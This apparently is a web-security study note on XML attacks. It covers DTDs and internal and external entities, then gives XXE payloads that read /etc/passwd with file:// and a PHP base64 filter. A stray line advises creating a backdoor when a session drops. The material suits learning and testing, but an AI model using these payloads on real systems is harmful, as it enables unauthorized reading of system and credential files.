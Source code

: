 If the session keeps ending, create a platform specific backdoor.

## Ch8 - XML attacks

XML Basics
- An XML document must contain only one root element.
- An attribute must always be quoted with either single quotes or double quotes.
- An XML DTD is document which is used to validate an XML document for certain criteria.
- An XML DTD can be internal or external. `<!DOCTYPE student SYSTEM "student.dtd">`

XML entities
- An XML entity is a representation of some information.
- A predefined entity is generally used to represent markup characters.
- We can define our own entities which will reference some information internally or externally.

Internal
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY name "James Jones">
]>
<student>&name;</student>
```

External
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY sname SYSTEM "https://abhaynayar.com/external.xml">
]>
<student>&sname;</student>
```

XXE attack

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
<name>&oops;</name>
</student>
```

- In some environments, it is possible to get a directory listing with the `file://` handler: `<!ENTITY oops SYSTEM "file:///etc/ ">`
- PHP base64 filter conversion
```
<!DOCTYPE student [
	<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<student>
<name>&pwn;</name>
</student>
```
